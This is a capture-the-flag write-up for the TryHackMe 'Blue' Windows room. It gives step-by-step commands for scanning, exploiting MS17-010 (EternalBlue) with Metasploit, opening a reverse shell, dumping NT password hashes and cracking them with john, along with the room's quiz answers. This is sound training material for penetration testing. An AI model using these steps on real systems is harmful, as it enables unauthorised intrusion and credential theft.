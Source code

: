 # Blue

- [Tools](#tools)
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags](#find-flags)

Room Link: [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## Tools 

1. NMap https://nmap.org/download
2. Metasploit https://www.metasploit.com/download

## Recon

1. Scan with nmap using command, `nmap 10.10.248.180 --script vuln -p0-1000`

Output:
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-27 10:57 IST
Nmap scan report for 10.10.248.180
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
135/tcp open  msrpc
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp open  netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-webexec: ERROR: Script execution failed (use -d to debug)
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-webexec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: ERROR: Script execution failed (use -d to debug)
|_smb-double-pulsar-backdoor: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-conficker: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-cve-2017-7494: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms06-025: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms07-029: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms08-067: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms17-010: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 34.07 seconds
```
2. Question `How many ports are open with a port number under 1000?` Answer `3`
3. Question `What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)` Answer `ms17-010`

## Gain Access

1. Start Metasploit with `msfconsole`
2. Following next question, searched exploit in metasploit console with `search ms17-010` command
Output:
```bash
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```
3. Question `Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)` Ansswer `exploit/windows/smb/ms17_010_eternalblue`
4. To use the exploit we typed `use exploit/windows/smb/ms17_010_eternalblue` command
5. After checkinh options with `options` command, we found that we need to add rhosts with `set rhosts 10.10.248.180` and `set lhost tun0` command
6. Question `Show options and set the one required value. What is the name of this value? (All caps for submission)` Answer `RHOSTS`

## Escalate 
1. Used payload with command `set payload windows/x64/shell/reverse_tcp`
2. Then `run` and wait for some time.
3. `search shell_to_meterpreter` to find module to upgrade session to meterpreter.
Output:
```bash
Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter
```
4. Question `If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)` Answer `post/multi/manage/shell_to_meterpreter`
5. Question `Select this (use MODULE_PATH). Show options, what option are we required to change?` Answer `SESSION`
6. Run the module after setting session. If fails run it again, it will connect.
```bash
meterpreter > shell
Process 808 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>ps
ps
'ps' is not recognized as an internal or external command,
operable program or batch file.

C:\Windows\system32>exit
exit
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System             x64   0
 416   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM  ...........
...............................................................................
...............................................................................
```
7. Use `migrate PROCESS_ID` to mmigrate.

## Cracking
1. Use `hashdump` to hashes.
Output:
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
2. Question `Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?` Answer `Jon`
3. Save hashes in a file named `hash.txt` and use `john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` to crack the hash.
4. Question `Copy this password hash to a file and research how to crack it. What is the cracked password?` Answer `*******`

## Find flags
1. We can goto `C:\\` abd get first flag using `cat flag1.txt`.
```bash
meterpreter > pwd
C:\Windows\system32
meterpreter > cd C:\\
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-13 08:43:36 +0530  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 10:38:56 +0530  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 08:50:08 +0530  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-18 03:52:01 +0530  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-18 03:58:38 +0530  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-18 04:05:57 +0530  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-13 08:43:22 +0530  Recovery
040777/rwxrwxrwx  4096   dir   2019-03-18 04:05:55 +0530  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-13 08:43:28 +0530  Users
040777/rwxrwxrwx  16384  dir   2019-03-18 04:06:30 +0530  Windows
100666/rw-rw-rw-  24     fil   2019-03-18 00:57:21 +0530  flag1.txt
000000/---------  0      fif   1970-01-01 05:30:00 +0530  hiberfil.sys
000000/---------  0      fif   1970-01-01 05:30:00 +0530  pagefile.sys

meterpreter > cat flag1.txt
flag{********************************}
```
2. We can use `search -f flag2.txt` and `search -f flag2.txt` to find second and third flag to submit, as we already know the first one.
```bash
meterpreter > search -f flag2.txt
Found 1 result...
=================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Windows\System32\config\flag2.txt  34            2019-03-18 01:02:48 +0530

meterpreter > cat c:\Windows\System32\config\flag2.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat "c:\Windows\System32\config\flag2.txt"
flag{********************************s}
meterpreter > search -f flag3.txt
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\Jon\Documents\flag3.txt  37            2019-03-18 00:56:36 +0530

meterpreter > cat "c:\Users\Jon\Documents\flag3.txt"
flag{********************************}
```
3. flag1 : `flag{********************************}` flag2: `flag{********************************}` flag3:`flag{********************************}`

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
